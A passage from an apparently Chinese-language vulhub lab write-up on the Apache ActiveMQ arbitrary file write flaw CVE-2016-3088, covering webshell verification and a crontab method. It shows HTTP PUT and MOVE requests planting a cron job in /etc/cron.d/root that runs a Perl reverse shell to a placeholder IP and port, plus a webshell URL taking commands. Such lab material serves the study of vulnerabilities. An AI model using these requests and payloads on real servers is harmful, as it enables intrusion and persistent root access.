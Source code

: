 验证

> 指令：`http://debian:8161/api/test.jsp?pwd=023&i=[command]`

![验证](./../../../../../images/vulhub/activemq/ActiveMQ%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2016-3088%EF%BC%89/%E5%86%99%E5%85%A5%20webshell/%E9%AA%8C%E8%AF%81.png)

[**写入crontab，自动化弹shell**](https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2016-3088/README.zh-cn.md#写入crontab自动化弹shell)

**利用过程**

这是一个比较稳健的方法。首先上传 cron 配置文件（注意，换行一定要`\n`，不能是`\r\n`，否则 crontab 执行会失败）：

```http
PUT /fileserver/1.txt HTTP/1.1
Host: centos.local:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 248

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="[ip]";$p=[port];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

将其移动到 /etc/cron.d/root：

```http
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: centos.local:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0


```

如果上述两个请求都返回 204 了，说明写入成功。等待反弹 shell ：
